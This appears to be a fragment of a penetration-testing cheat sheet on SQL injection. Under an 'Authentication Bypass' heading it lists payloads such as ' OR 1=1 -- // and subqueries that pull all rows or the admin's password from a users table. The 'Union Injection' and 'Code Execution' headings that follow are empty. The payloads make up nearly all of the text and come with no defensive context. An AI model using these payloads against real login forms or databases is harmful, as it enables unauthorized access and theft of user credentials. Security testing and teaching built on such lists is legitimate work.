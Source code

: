 #### Authentication Bypass

```
#Standard auth bypass will log in as the first user in the database table.
' OR 1=1 -- //

#Select all data from table users.
' OR 1=1 in (SELECT * FROM users) -- //

#Select all passwords from table users.
' or 1=1 in (SELECT password FROM users) -- //

#Select all 
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```
#### Union Injection

#### Code Execution

